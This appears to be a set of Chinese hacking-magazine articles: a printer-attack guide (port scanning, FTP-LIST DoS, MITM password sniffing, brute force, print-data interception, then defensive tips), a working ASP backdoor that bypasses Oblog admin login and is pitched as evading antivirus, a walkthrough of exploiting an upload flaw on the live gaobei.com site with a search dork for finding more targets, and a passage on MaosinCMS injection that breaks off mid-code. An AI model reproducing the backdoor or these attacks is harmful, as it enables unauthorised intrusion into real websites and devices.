Discovered open port 9102/tcp on 192.168.1.200
Completed SYN Stealth Scan at 12:31, 15.95s elapsed (1000 total ports)
Host 192.168.1.200 appears to be up ... good
Scanned at 2008-09-20 12:31:33 中国标准时间 for 16s
Interesting ports on 192.168.1.200:
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
23/tcp  open  telnet
80/tcp  open  http
139/tcp open  netbios-ssn
515/tcp open  printer
9102/tcp open jetdirect
MAC Address: 00:15:E9:6D:8C:76 (D-Link)
Nmap done: 1 IP address (1 host up) scanned in 16.70 seconds


```

如果对扫描结果不满意，可以再次进行深入的操作系统版本或者详细服务版本探测。比如对于打印服务器而言，为了设置方便，一般都会提供 Web 方式进行全面管理，也就是说，往往还会开放 80 端口。通过对 80 端口的扫描来获取 Web Banner，也是一种判断打印机/打印服务器的方法。如图3所示为使用 Nmap 的 GUI 版 Zenmap 来进行探测的结果，可以看到，已经清晰地识别出目标为 D-Link DP-G310 Wireless Print Server，即 D-Link 无线打印服务器。
图3 使用Zenmap探测打印服务器OS

不同设备开放的端口并不完全一致，所以在扫描其他打印服务器时，最终的扫描结果也将会呈现出不同的结论。如下即为对内网指定目标的探测结果。可以看到 nmap 识别出该目标为 HP LaserJet 打印机或打印服务器。（注：为方便显示，这里我将显示内容进行了删减）

```text
Zerone:~# nmap -A 192.168.0.23
Starting nmap 3.81 (http://www.insecure.org/nmap/) at 2007-10-28 12:54
Interesting ports on testprinter (192.168.0.23):
PORT   STATE SERVICE VERSION
21/tcp open  ftp     HP JetDirect ftpd
23/tcp open  telnet?
80/tcp open  http    HP JetDirect httpd
280/tcp open http    HP JetDirect httpd
515/tcp open sdnsvc  LANDesk Software Distribution
631/tcp open http    HP JetDirect httpd
9100/tcp open jetdirect?
Device type: printer|print server
Running: HP embedded
OS details: HP LaserJet printer/print server
Nmap finished: 1 IP address (1 host up) scanned


```

对于中小型企事业单位中更为常见的共享打印机方式，作为攻击者一样可以通过扫描共享的方式查找到这些设置为共享的打印机。从图4可以看到，使用共享扫描工具在整个 Intranet 网内发现了大量的共享打印机设备。
图4 查找启用共享的打印机设备

## 攻击打印机设备

一旦确定目标，恶意的攻击者可以采用多种方式对内部打印机进行破坏，或者对正常业务干扰，比如针对打印机的 D.O.S 攻击、特殊病毒攻击等。轻则导致内部打印机打印出错，重则导致打印机崩溃死机，从而使得内部办公环境陷入混乱。此时，一些商业间谍甚至就可以乘虚直入，窃取内部文档、磁盘、光盘等内部资料。对于公司里一些经常需要打印支持的外贸、行政、人力资源部门，应特别引起注意。而对于一些涉密的企业及军警政机构，通过入侵打印机实现截获打印内容，也是间谍们会采取的网络渗透方式之一。在这样的情况下，只要能够成功连接内部打印机，就可以通过对打印机内存分析得出正在打印或已经打印的文档内容。鉴于现在相关机构办公网络的不设防性，关于这点尤为需要引起注意。

### 1. 缓冲区溢出及 D.O.S 攻击

关于缓冲区溢出的原理这里不再阐述，作为黑防的读者应该都已经较为熟悉。下方针对 HP 部分型号打印机的拒绝服务攻击的漏洞公告及问题描述，该漏洞可导致打印机频繁死机或无法正常打印的情况。其具体信息及测试代码有兴趣的读者可以到 SecurityFocus.com 等网络漏洞公告栏查看。

HP LaserJet 5000 Series（内部模块版本为 R:25.15/R.25.47）及 HP LaserJet 5100 Series（内部模块版本为 V.29.12）系列型号的测试，其他 HP 打印机型号虽然在此公告并未列出，但并不是说就不存在该漏洞或类似漏洞。

### HP LaserJet FTP 打印服务器 LIST 命令缓冲溢出漏洞

受影响系统：HP LaserJet 5100 Series、5000 Series，HP FTP Print Server 2.4.5，HP FTP Print Server 2.4。

描述：HP LaserJet 的 FTP 打印服务实现上存在漏洞，远程攻击者可能利用此漏洞对打印机执行拒绝服务攻击，导致打印机无法工作。

启用 FTP 打印服务器，HP 打印机就可能存在缓冲区溢出漏洞。若攻击者能够发送带超长参数（大约 256 个字符）的 LIST 命令的话，就会触发这个溢出，导致拒绝服务。即使在重启后打印机仍会没有响应，必须厂商的技术支持才能修复崩溃的打印机。

表1为近年来爆出的较出名的打印机/打印机服务/打印服务器相关漏洞合集列表，涉及到多款目前依旧被广泛使用的打印机型号，还包括了个别操作系统自身的打印服务出现的安全漏洞。作为以前忽视此方面安全防护的机构及管理员应引起重视，并及时到厂商下载及更新补丁。

| 发布时间 | 漏洞名称 | 受影响系统 |
|---|---|---|
| 2008-05-16 | Microsoft IE 打印链接列表跨区脚本注入漏洞 | IE 7.0，IE 8.0b |
| 2008-03-03 | 佳能多功能打印机 FTP 跳转攻击漏洞 | imageRUNNER 7086/7095/7105，imageRUNNER C5058/5068，Color imageRUNNER C3220/2620 等 |
| 2007-03-29 | HP JetDirect 打印程序 RETR 命令远程拒绝服务漏洞 | HP FTP Print Server 2.4 |
| 2006-12-21 | HP LaserJet FTP 打印服务器 LIST 命令缓冲溢出漏洞 | HP LaserJet 5100 Series，HP LaserJet 5000 Series，HP FTP Print Server 2.4.5/2.4 |
| 2006-12-06 | Microsoft Windows 打印后台程序远程拒绝服务漏洞 | Microsoft Windows 2000 SP4 |
| 2006-04-06 | HP 打印机驱动程序漏洞 | HP Color LaserJet 2500，HP Color LaserJet 4600 |
| 2006-02-09 | Lexmark 打印机共享服务存在远程代码执行高危漏洞 | Lexmark network printer |
| 2004-09-30 | HP LaserJet 打印机任意 Firmware 升级漏洞 | HP LaserJet 9500/9050mpf/4200/2500，HP Color LaserJet 5550 等 |
| 2003-05-14 | IBM AIX 打印子系统多个未明安全漏洞 | IBM AIX 5.2/5.1/4.3.3/4.3.2/4.3.1/4.3 |
| 2003-05-03 | HP JetDirect 打印机 SNMP JetAdmin 设备密码泄露漏洞 | HP JetDirect 300.0 X，J3263A，J2552A 等 |

### 2) MITM攻击截获打印服务器登录密码

对于少许有着良好安全意识的管理员，会在打印机/打印服务器上启用密码验证。这样，任何试图修改打印机/打印服务器配置，甚至仅仅是使用打印机的用户都将看到如图5所示的登录提示。
在这样的情况下，对于内部员工或者渗透至内网的恶意攻击者来说，可以使用 MITM 攻击来将目标与打印服务器之间的通信数据进行中转、拦截、破坏等。换句话说，由于一般的打印服务器并不会启用类似 SSL、SSH 之类的强化措施对通信过程加密，所以通过 MITM 攻击是能够截获到管理员登录打印服务器的管理密码的。一般来说，先对打印服务器发动简单的 DOS 攻击使其无法正常接受打印作业，以此来诱使管理员登录查看，这样便可以使用 ARP 欺骗之类的手法来截获密码了。如图6框内所示为截获到的打印服务器登录账户及密码。
虽然通过 MITM 中间人攻击的配合，直接抓取数据包分析，一般来说是可以拦截并记录到管理员登录密码的，但对于个别打印机/打印服务器，也会出现无法截获密码的情况。如图7所示，虽然截获到账户名为 Admin，但密码部分显示为 Error（错误），这是由于该打印机/打印服务器启用某些加密或者简单屏蔽机制所致。
### 3）破解打印服务器登录密码

除了上面提及的中间人攻击+嗅探的手法来截获管理账户及密码外，也可以对目标打印服务器/网络打印机采取在线暴力破解的方式来强行破解密码，比如针对 23 端口的暴力破解。此类攻击方式和以往内网中对服务使用的方式类似，比如针对 Web、FTP、Telnet 等登录方式的暴力破解。

当攻击者成功破解出登录账户及密码后，即可对打印机进行配置。一般可以通过 Telnet 来实现，如图8所示，输入对应的配置选项，即可对打印机/打印服务器现有配置参数进行修改。换句话说，也就可以进行破坏或者窃取资料，这样就可以达到扰乱正常工作的目的。
由于某些管理员的疏忽或者安全意识薄弱，有时候会出现为了下次访问方便，而将登录密码自动保存的情况。这样一旦黑客能够进入管理员的计算机，通过历史记录等方式即可访问到打印机/打印服务器的 Web 管理界面，也就可以找到登录账户密码设置页面，从而就可以看到如图9所示的 Password 处显示的星号，即为简单加密后的登录密码。
图9 加密后的登录密码

不过这样简单的异或运算加密难不倒有经验的攻击者，除了可以使用星号密码查看工具探查实际密码外，更简单的方法就是打开浏览器中的“查看→源文件”，通过查询关键字，如 password，即可查询到如图10黑框中所示的内容，value 后即为上面星号所示的实际密码，此处为“zerone”。
图10 源文件中的密码

令人遗憾的是，笔者这些年遇到的实际情况是：由于多数中小型公司管理员及办公室人员为了管理方便，并不会修改打印机管理或使用密码，这使得多数打印服务器的密码为默认或者直接为空密码。而在前面扫描内容中我已经以实例表明，大多数的打印机/打印服务器都是会开启 21、23、80 等端口的。这样，攻击者就可以直接 FTP 至打印服务器上进行相关设置，如图11所示。当然，那些从外网渗透到内网的攻击者也可以通过在网关的交换机或路由器上将打印机端口映射至外部网络，来达到远程破坏打印机或者窃取资料的目的。

```text
C:\>ftp 192.168.1.200
Connected to 192.168.1.200.
220 FTP server ready.
User (192.168.1.200:(none)): anonymous
331 User name accepted.
ftp> ls
200 OK.
...


```

图11 通过FTP登录打印服务器

## 截获打印数据流

这里我们从以下几个角度来简单讨论下打印数据的截获。

### 1. 从网络角度进行截获

一般来说，对于使用打印服务器或者多功能打印机的环境，作为客户端与打印服务器之间的数据是比较容易监听的。如图12所示，为在进行正常的打印作业时，截获的客户端与打印服务器之间的交互数据报文。
图12 截获客户端与打印服务器交互数据报文

正常情况下，在打印前至打印完毕，客户端与打印服务器之间要进行多次的交互，其基本交互过程为（下面以 EPSON 网络打印机主要交互过程为例节选）：

表2 EPSON网络打印机主要交互过程（节选）

| 数据包来源及目的 | 协议类型 | 数据类型 | 备注及目的 |
|---|---|---|---|
| 客户端->服务器 | TCP | SYN | 三次握手 |
| 服务器->客户端 | TCP | SYN, ACK | 三次握手 |
| 客户端->服务器 | TCP | ACK | 三次握手 |
| 客户端->服务器 | LPD | LPR: transfer a printer job | 传输打印作业 |
| 服务器->客户端 | LPD | LPD response Success: accepted, proceed | 接受打印作业 |
| 客户端->服务器 | LPD | LPD continuation | 指定打印文件 |
| ... | ... | ... | ... |
| 服务器->客户端 | TCP | FIN, ACK | 结束 |
| 客户端->服务器 | TCP | ACK |  |
| 服务器->客户端 | TCP | RST | reset |

在对截取的打印数据报文进行深入分析，比如跟踪数据流后，我们可以轻松识别出当前正在……或者刚刚打印的文档名称。如图13黑框处所示，为正在打印的为 Word 文档，文档全名是“mianshi.doc”，打印机名称为 EPSON。同时可以看到“@EJL”提示，这是 EPSON 作业语言（EPSON Job Language）的标志，该语言在使用过程中遵循 IEEE1284.4 标准，其初始化时会出现如下内容，来表示启用 IEEE 1284.4 通信模式。

```text
@EJL<SP>1284.4<LF>
@EJL<SP><SP><SP><SP><SP><LF>


```

其中，`<SP>` 表示为空格，`<LF>` 相当于换行。
对于通过打印机共享来对办公环境提供打印服务的情况，这种在很多中小型企业目前都在采用的方式，其设置并不困难，只需要连接至该共享打印机即可。作为共享式打印机的交互和前面与打印服务器拦截的数据包有所区别，比如前者主要基于 SMB 访问实现，而后者则主要是通过打印机协议实现。如图14所示截获的交互数据流，表明该打印机为 HP Color LaserJet 1600 型激光打印机，提供该打印机共享的机器 IP 为 192.168.1.102。
对于目前广泛流行的 USB 接口打印机而言，通过对 USB 接口进行数据交互分析，也能够拦截到打印指令及打印数据。不过此时拦截到的打印数据均为乱码，需要额外转码处理。作为恶意的攻击者完全可以通过终端登录、远程控制或者从物理上对 USB 接口处理来实现对 USB 接口进出数据的监控及拦截分析。如图15所示，为对 USB 接口中连接打印机的 USB 端口进行的定点数据拦截。

## 数据拦截
还有一些工具可以对打印机端口进行监控，可以将打印的作业直接截获并保存为其他格式的文件或者是图片，比如将 PostScript 文件转换成 DOC 文档或者 BMP 图片。

### 2）从物理角度实现截获

作为极端组织的手段，最实际的截获打印内容的方法应该是安装摄像装置，然后定期取出。这样的手法对于一些化装成敏感机构上门维修服务人员的谍报人士来说，并不是件很困难的事情。何况随着摄像装置的微型化，看看当前流行的手机就知道，装有 2 个摄像头而厚度不超过 1 厘米的高档手机可以说比比皆是，加上这些可以达到 4GB 的 Micro SD 存储卡，拍下的照片可以轻松地达到 40000 张以上。手机都是这样，更不用提经过改装的间谍专用微型摄像装置了。

这些依附在打印机出纸挡前的全时段摄像装置，会在打印机开始打印时自动启动，并可以对刚刚打印出来的纸张内容进行分段拍摄及存储。这样的技术虽然早在 20 世纪 80 年代就已经出现，但对于目前相对小巧的打印机来说，摄像装置也越发微型化，可以说是只要不仔细检查，依然是可以躲过绝大多数粗心的办公人员及管理员，甚至包括一些机构的安全人员的检查。

### 3）关于打印机芯片

我们先来回顾一段几年前来自权威媒体的报道：在伊拉克战争开始之初，美国曾通过第三方把一批打印机卖给了伊拉克，并且在战争中通过无线电遥控激活了事先已隐藏在打印机中的……芯片中的计算机病毒，破坏了伊拉克计算机系统。我想当时这一事件更多的只是在人们心中留下类似于惊讶的印象而已。

然而，在2005年的报道中还阐述了这样一件令人震惊的大事：美国电子前线基金会成功地破解了施乐 DocuColor 打印机暗藏的泄密代码，并发现其中至少包含了文档的打印时间，以及打印机的序列号等。该基金会表示，不仅是施乐打印机有跟踪代码，日本的佳能、爱普生、美国戴尔、惠普等品牌的打印机都存在类似代码，而且这些打印机不只在欧美销售，也会在包括中国在内的其他国家和地区销售。

对此，当时美国特勤局的解释是，他们曾经同美国政府其他机构以及打印机行业合作，共同开发预防性技术，目的是打击假币生产过程中非法使用计算机或复印机的行为。就此，时任电子前线基金会发言人丽贝卡·杰斯卡表示：“任何一个国家的政府都十分关注不同政见者的言论，所以她认为，政府机构可以使用同样的信息跟踪不同政见者，其他国家政府也可以破解打印文档中的秘密代码，并将其用于其他用途。”施乐打印机内部那些秘密代码，既然可以追踪制造假币者的蛛丝马迹，就能够获取用户的其他任何信息。美国特勤局美其名曰：“不会跟踪用户使用计算机硬件和软件的情况”，但是，谁能保证别有用心者不会干出其他勾当呢？

若从功能结构上区分，激光打印机可分为打印控制器和打印引擎两大部分，前者就是打印机的控制电路，负责接收来自计算机终端或网络的打印命令及相关数据，并解释给打印引擎进行相关动作，属于常规性部件。而打印引擎则根据来自打印控制器的命令进行实际的图像打印工作，激光打印机的实际性能更多地取决于打印引擎。目前，具备打印引擎设计制造能力的只有佳能、美能达、施乐、Brother、三星、日立等少数几个厂商。各打印机厂商则只是向这些引擎厂商购买或专门定制打印引擎，然后根据引擎设计出打印控制器及驱动程序，由此再形成打印引擎市场与激打整机的二级市场。从功能上说，打印控制器实际上是一台功能完善的专用计算机，它包括 I/O 接口、处理器、内存和控制接口四大模块，少数高端机型甚至还配置了硬盘，施乐的泄密代码很有可能就隐藏在这个部位。

如果从这一角度来看，配备自有打印控制器的激光打印机或许更可靠一些，但不要忘了，控制器是将打印信息解释给打印引擎的，不包含泄密代码的信息引擎有可能不识别，何况打印引擎还有着更为机密的内置芯片！

关于芯片可能存在的问题及由此将会导致的后果，我想大家都很清楚，在这里讲到这些只是为大家敲敲警钟。就像我们常说的：越是高级的技术，里面猫腻就越多；越是不公开代码的系统，里面暗藏的东西也就越“不可告人”。比如几乎所有 HP 打印机都至少有 4MB 内存，这些内存是能够用来存放文件的，换句话说，也是可以编译的，这又意味着什么呢？如图16所示的即为查看打印机内存中的内容。
图16 查看打印机内存中的内容

## 监控打印机

既然打印机存在种种安全隐患，作为一些大型企业的安全部门，也开始使用一些平台或者工具来对内部办公环境的打印状况进行监控，一方面是为了确保办公环境的正常有效运转，一方面也是为了监视办公环境内的打印作业内容，防止公司商业机密泄漏事件出现的可能。既然是对办公环境的整体打印作业的监控，那么就会面临大量不同厂商、不同型号打印机共存的情况。由于各个厂商的产品采用的格式都不太一样，所以了解这些打印机使用的打印语言对于打印数据交互的监控和还原将是非常有必要的。表3列出了目前已知的打印机语言识别代码。

## 表3 已知打印机语言的识别代码

| 控制语言 | 描述 |
|---|---|
| EJL | EPSON Job Language（EPSON 打印机作业语言） |
| PJL | HP Printer Job Language（HP 打印机作业语言） |
| PS | PostScript |
| LJ-2P | Hewlett-Packard LaserJet 2 |
| LJ4 | Hewlett-Packard LaserJet 4 (PCL5e) |
| ESCP | Epson ESC/P |
| ESCP2 | Epson ESC/P2 |
| 3/P/Si | - |
| LQ | - |
| FX | Epson FX-870/1170, FX-880, or LX-100 (9-pin) |
| Epson GL | Epson GL |
| Epson GL2 | Epson GL2 |
| I239X | IBM 239X |

至于监控打印作业，使用基本的工具可以实现对连接至该打印机的机器进行打印作业监控，可以有效记录下该打印机已经完成的打印作业顺序、打印的文件类型和名称、页数、打印份数及打印时间等。如图17所示为企业打印监管软件，将其监控结果 Log 提取出来，可以得到类似如下的内容。
```asp
admin, 9/23/2008 14:52:10 NT EMF 1:008 1 MicrosoftWord - mianshi.doc JOB_STATUS_PRINTING


```

## 保护内部打印设备

看到上面提及的打印机面临的安全隐患，作为网络管理员应当明白，打印机也是安全防护体系不可或缺的一部分，应当及时完善内部安全架构。通常的防护应至少做到以下几点：

- 1）对内部共享打印机应严格设置访问权限。很多内部办公环境为了工作方便，都对打印机进行了局域网共享设置，但由于在默认情况下，共享的打印机是可以由 Everyone 用户组访问的，这样就造成了潜在的安全隐患。一旦恶意攻击者进入内网后，不需要连接密码就可以直接连接共享的打印机，甚至可以使用专有工具连接到打印机配置界面。所以，在共享设置里删除 Everyone 用户组，并要求所有使用者使用对应账户登录，能够降低被攻击的风险。
- 2）升级打印机驱动及内核版本。作为打印机生产厂商，一般在产品被爆出存在安全隐患后，都会及时发布最新的打印机内核版本或升级补丁，所以暴露在此威胁下的网络环境，网络管理员应当及时对内部打印机或打印服务器进行安全升级。
- 3）关注最新的打印机安全通告。从事公司内部网络安全维护的相关人员，应当关注打印机安全通告，比如时常登录 SecurityFocus.com 漏洞公告栏查看有无新增的打印机安全通告，一般在通告中都会给出临时解决方案。
- 4）定期核实连接的用户或机器身份。作为打印机或打印服务器的管理员，应当定期查看对应的连接日志，查看记录的已连接或正在连接的用户及计算机信息，包括计算机名称、网卡 MAC、来源 IP 及打印作业量等。
- 5）定期监控打印机状态。当打印机出现莫名崩溃或者重启情况时，应当予以重视。在出现可疑情况时，应尽快查看打印机/打印服务器，翻查日志记录及实时连接状况，核实打印作业等。暴露在本文内容所示威胁下的公司环境，作为网络管理员或者安全人员应当预先建立干预机制来应对此类状况。
适合读者：入侵爱好者

前置知识：ASP

## 利用Session验证做后门
文／图 Hack214

我们最常用的 ASP 后门要属一句话木马了，因为一句话木马体积小，就那么几个字符，便于隐藏，而且使用起来相当方便，用它作后门再合适不过了。不过现在杀毒软件也比较厉害，像什么站长 ASP 助手等只要一扫描，我们的一句话无论加密还是转换字符串都不能躲过查杀。最近我在研究 Oblog2.52，看了几段源码后倒给了我点灵感。Oblog 对管理员的登录采用的是 Session 验证。我想大概是为了防止 Cookie 欺骗吧！Session 验证确实比 Cookie 验证安全多了。当然，今天我不是找 Oblog 新漏洞的，只是做个不被查杀的后门而已，利用什么做后门呢？呵呵，那就用 Oblog 的 Session 验证吧！

### Session验证做后门

这个后门很新鲜吧？在开始动手之前，我们先了解一下 Session 验证的原理。Session 与 Cookie 不同，Cookie 一般保存在客户端，我们有权修改它的相关内容，若改成其他用户的 Cookie，我们就可以用别人的身份登录相应网站，所以 Cookie 验证不太安全。而 Session 是在服务器端运行的，我们没有权利修改它，所以比较安全。好！废话少说，到这该进入我们的主题了。我们看一下 Oblog 后台登录文件 admin_login.asp 的源码，功能很简单，只是把用户填写的表单提交给了 admin_chklogin.asp 进行处理。此处重点看一下 admin_chklogin.asp 是怎么进行处理的，下面是其中的一段源码。

```asp
<%
dim sql,rs
dim username,password,s,s2
dim founderr,errmsg
dim GetCode,valicode
GetCode=int(request("GetCode"))
valicode=int(session("GetCode"))
if GetCode<>valicode then
  FoundErr=True
  ErrMsg=ErrMsg & "<br><li>验证码错误！</li>"
end if
username=replace(trim(request("username")),"'","")
```

```asp
// 接受提交的用户名，并过滤单引号
password=replace(trim(Request("password")),"'","")
// 接受提交的密码，并过滤单引号
if UserName="" then
  FoundErr=True
  ErrMsg=ErrMsg & "<br><li>用户名不能为空！</li>"
end if
if Password="" then
  FoundErr=True
  ErrMsg=ErrMsg & "<br><li>密码不能为空！</li>"
end if
if FoundErr<>True then
  password=md5(password)  '加密密码
  set rs=server.createobject("adodb.recordset")
  sql="select * from admin where password='"&password&"' and username='"&username&"'"
  rs.open sql,conn,1,3
  if rs.bof and rs.eof then
    FoundErr=True
    ErrMsg=ErrMsg & "<br><li>用户名或密码错误!!!</li>"
  else
    if password<>rs("password") then
      FoundErr=True
      ErrMsg=ErrMsg & "<br><li>用户名或密码错误!!</li>"
    Else
      rs("LastLoginIP")=Request.ServerVariables("REMOTE_ADDR")
      rs("LastLoginTime")=now()
      rs("LoginTimes")=rs("LoginTimes")+1
      rs.update
      session.Timeout=60
      session("AdminName")=rs("username")
      session("adminpassword")=rs("password")
      rs.close
      set rs=nothing
      call CloseConn()
      Response.Redirect "Admin_Index.asp"
    end if
  end if
end if
```

```asp
if FoundErr=True then
  call WriteErrMsg()
end if
call CloseConn()
```

看到上面的 Session 验证了吧？若查询的数据存在则对 Session 进行赋值“session("AdminName")=rs("username")”、“session("adminpassword")=rs("password")”。我们再看一下 admin_index.asp 是怎么判断的，在开头的几行有如下代码：

```asp
<%
if session("AdminName") = "" then
  // 只是判断是不是为空
  response.Redirect "Admin_Login.asp"
end if
%>
```

开始我是这样想的，如果创建一个 ASP 文件，加入对 Session 赋值的语句，随便赋予 Session 一个值，再去访问后台，就可以不用输入密码直接进后台了。可是测试过程中行不通。后来研究发现 admin_index.asp 由 admin_index_left.asp、admin_index_top.asp 等文件组成，而这些文件头部都有 `<!-- #include file="Admin_chkpass.asp" -->`。打开 admin_chkpass.asp 后发现了问题所在，代码如下：

```asp
AdminName=replace(session("AdminName"),"'","")
// 把 session("adminname") 赋予 adminname
adminpassword=session("adminpassword")
// 把 session("adminpassword") 赋予 adminpassword
if AdminName="" then
  call CloseConn()
  response.redirect "Admin_login.asp"
end if
sqlGetAdmin="select id from Admin where UserName='"&AdminName&"' and password='"&adminpassword&"'"
// 进行sql查询
set rsGetAdmin=server.CreateObject("adodb.recordset")
rsGetAdmin.open sqlGetAdmin,conn,1,1
if rsGetAdmin.bof and rsGetAdmin.eof then
  // 若记录不存在，重定向到后台登录
  rsGetAdmin.close
  set rsGetAdmin=nothing
  call CloseConn()
  response.redirect "Admin_login.asp"
end if
rsGetAdmin.close
set rsGetAdmin=nothing
```

原来 admin_chkpass.asp 还要把 Session 的相应值放到 SQL 语句中查询一遍，若 admin 表中存在用户名和密码才能进入，所以前面随便给 Session 赋值是行不通的。知道了原因后，下面的构造就简单了，我写了段代码如下：

```asp
<!-- #include file="conn.asp" -->
<%dim username
Dim rs,sql
Username=request("username")
If username="hack214" then
// 这句有隐藏作用
Set rs=server.createobject("adodb.recordset")
Sql="select * from admin where id=1"
Rs.open sql,conn,1,1
session.Timeout=60
session("AdminName")=rs("username")
session("adminpassword")=rs("password")
rs.close
set rs=nothing
response.redirect "admin_index.asp"
end if%>


```

把文件保存为 hack.asp 放到 Oblog 源码目录，也可以插入到正常 Oblog 文件中。当访问“http://***/hack.asp?username=hack214”时就会直接跳到后台管理页面。这个过程并不需要知道管理员用户名和密码，因为代码里执行了 `sql="select * from admin where id=1"`，把查询到的记录赋值给 Session，再经过 admin_chkpass.asp 验证时一定能通过；而 id 为 1 的用户通常是 admin，于是就以管理员身份进入后台了。

## 总结

怎么样，若用这个做后门很不错吧？不需要后台登录，直接就可以进后台了，但前提是先得到 WebShell。事实上利用起来并不复杂，其他网站程序也可以用这个方法：若是 Session 验证，把上面利用程序里查询表名和赋值语句改一下即可；若是 Cookie 验证，只需把 Session 赋值改成 Cookie 赋值。更重要的是，这类“肉鸡”后门往往不容易被常规查杀，只要网站不更换程序就可能长期存在。

适合读者：入侵爱好者

前置知识：ASP

## 高贝文章系统最新版0Day分析
文／图 阿诚

一直想给《黑客防线》写些有点技术含量的文章。今天逛完《黑客防线》的论坛，无聊地在网上乱窜，谁知竟发现了一个网站被挂了马，仔细一看该网站，简直吓了我一大跳，被挂马的网站竟然是高贝文章系统的官网 www.gaobei.com。连官方都被挂了马，难道有传说中的 0Day 存在？于是我马上下了套高贝文章系统的最新版本进行测试。

本地架设好该系统，先看看有没有明显的注入点。使用阿D注入工具和明小子的 Domain3.5 进行检测后均没发现注入点，看来还是要从代码入手了！文件 NewsInfo.asp 的部分代码如下：

另一个思路——上传试试。打开 upload.asp 文件，发现其包含了 include 文件夹里的 check.asp 文件，看来是做了验证。查看 check.asp 文件，发现其验证代码如下：

```asp
<%
ID=CheckStr(Request.QueryString("ID"))
If isInt(ID)=False OR Not IsNumeric(ID) Then
    Response.Redirect "news.asp"
    Response.End()
End If
set rs=server.createobject("adodb.recordset")
rs.Open "Select * From news where id="&id,conn,3,3
if rs.bof and rs.eof then
    response.Redirect("News.asp")
end if
%>
```

```asp
RandNum=Session("CheckCode")
GaobeiManageSession = "20041006213"&RandNum
GaobeiManageAdminID = "GaobeiManageAdminID"&RandNum
GaobeiManageUser = "GaobeiManageUser"&RandNum
GaobeiManageKey = "GaobeiManageKey"&RandNum

function Checkin(s)
  s=trim(s)
  s=replace(s," ","&nbsp;")
  s=replace(s,"'","&#39;")
  s=replace(s,"\"","&quot;")
  s=replace(s,"<","&lt;")
  s=replace(s,">","&gt;")
  Checkin=s
end function

function CheckAdmin1
  if Session(GaobeiManageSession)<>true then response.redirect "Admin_Login.asp"
end function

function CheckAdmin2
  if Session(GaobeiManageSession)<>true then response.redirect "Admin_Login.asp"
  if Session(GaobeiManageSession)<>true or (session(GaobeiManageKey)<>"check" and session(GaobeiManageKey)<>"super") then response.redirect "Admin_Default.asp?err=你的权限不够！！"
end function
```

从代码中可以看出，变量 id 先经过了 checkstr 函数的过滤后又经过了 isnumber 函数的过滤再进行数据库查询工作的，checkstr 函数过滤了非常多注入常用的字符，要绕过还是比较困难的，而且就算绕过了 checkstr 也绕不过 isnumber！而后我又看了几个文件的代码，同样过滤得很严，注入之路算是中断了。

既然注入的思路中断了，那么我们就来换```vb
end function

'----------- 检查高级管理员 -----------
function CheckAdmin3
  if Session(GaobeiManageSession)<>true then response.redirect "Admin_Login.asp"
  if Session(GaobeiManageSession)<>true or session(GaobeiManageKey)<>"super" then response.redirect "Admin_Default.asp?err=你的权限不够！！"
end function

'----------- 错误输出 -----------
sub error()
```

这段代码使用 session 做验证，看来是绕不过了。再打开 upload_class.asp 文件，发现它也包含了 include/check.asp 文件。经过一番查找，最终发现 Upfile_Photo.asp 文件没有包含 include/check.asp 文件。仔细看了下代码，发现存在上传漏洞。

```vb
Const MaxFileSize=200  ' 上传文件大小限制
Const SaveUpFilesPath="UploadFile/Product"  ' 存放上传文件的目录
Const UpFileType="gif|jpg|bmp|png|swf|doc|rar"  ' 允许的上传文件类型
...
sub upload_0()  ' 使用环境无组件上传类
...
PhotoUrlID=Clng(trim(upload.form("PhotoUrlID")))
if PhotoUrlID>0 then
  SavePath = SaveUpFilesPath
else
  SavePath = SaveUpFilesPath
end if
if right(SavePath,1)<>"/" then SavePath=SavePath&"/"
for each formName in upload.file
  set ofile=upload.file(formName)
  oFileSize=ofile.filesize
  if oFileSize<100 then
    msg="请选择你要上传的文件！"
    FoundErr=True
  else
    select case PhotoUrlID
    case 0
      if oFileSize>(MaxFileSize*1024) then
        msg="文件大小超过了限制，最大只能上传" & CStr(MaxFileSize) & "K的文件！"
        FoundErr=true
      end if
```

```vb
case 1
  if oFileSize>(10000*1024) then
    msg="文件大小超过了限制，最大只能上传10M的文件！"
    FoundErr=true
  end if
end select
end if

fileExt=lcase(ofile.FileExt)
arrUpFileType=split(UpFileType,"|")
for i=0 to ubound(arrUpFileType)
  if fileEXT=trim(arrUpFileType(i)) then
    EnableUpload=true
    exit for
  end if
next
if fileEXT="asp" or fileEXT="asa" or fileEXT="aspx" then
  EnableUpload=false
end if
if EnableUpload=false then
  msg="这种文件类型不允许上传！\n\n只允许上传这几种文件类型：" & UpFileType
  FoundErr=true
end if
```

看出问题了吧，这段代码只对第一个上传的文件做了过滤，这不是经典的动力上传漏洞吗？打开明小子 Domain3.5，进入上传模块，选择“动力上传漏洞”，再选择 upfile_softpic.asp 文件上传漏洞，然后填入 Upfile_Photo.asp 文件的地址，点击上传就可以了，如图1所示。


图1

现在我们进入实战，在 Domain3.5 的动力上传漏洞处填入 http://www.gaobei.com/upfile_softpic.asp，点击“上传”，小马叮咚一下就飞到服务器上了，如图2所示。


图2

最后我再做一下总结，在实战的过程中，我们还可以下载其 /Editor/Datas/SouthidcEditor.mdb 数据库，破出密码后再在 /Editor/admin_login.asp 进行登录，这个是 eWebEditor 系统，相信经常看黑防的都知道怎么利用 eWebEditor 拿 WebShell 了，我就不再多说了。在网上搜索关键字“Copyright@2003-2007 天晴工作室版权所有”就能搜出很多用高贝文章系统的网站，呵呵~

文中如有什么疏漏之处，欢迎大家指出，有什么问题可以到黑防论坛来找我，我的 ID 是“诚妹”。

适合读者：入侵爱好者

前置知识：无

# 发掘 MaosinCMS 网站系统漏洞


舒城李宾♂（梦幻★剑客）

最近的动易 CMS 漏洞可以说着实火了一把，本文写的 CMS 虽然没有动易功能强大，但同样存在注入漏洞。这种漏洞用工具是扫不到的，可以说注入已经由显式转为隐式了，必须查看源代码才有可能发现潜在的漏洞。

## 本地测试漏洞

在本地架设好 IIS，界面还算美观了。不过想利用这个注入点，首先需要注册个普通用户。《黑客防线》曾经发表过一篇发现“注册型注入点”的文章，这个系统的注入漏洞也基本属于这个类型的。注册登录后的界面感觉是从乔客系统修改过来的，其中有个“发布新闻”功能，我这里就随便填入内容点提交后成功发布。到这里程序都不存在任何问题，可是还有个“管理发布新闻”功能，用户在这里可以对自己发布的内容执行修改和删除，恰好在修改这里，参数没有过滤导致我们注入成功，如图1所示。


图1

注意地址栏中传递的参数是数字型的，注入我最喜欢数字型的了。看到是在 user_publish.asp 文件出了安全问题，翻看代码发现真正的漏洞代码不在 user_publish.asp 文件中，而是调用了 user_news.asp 文件，其部分代码如下。

```asp
<%
Sub modifynews()
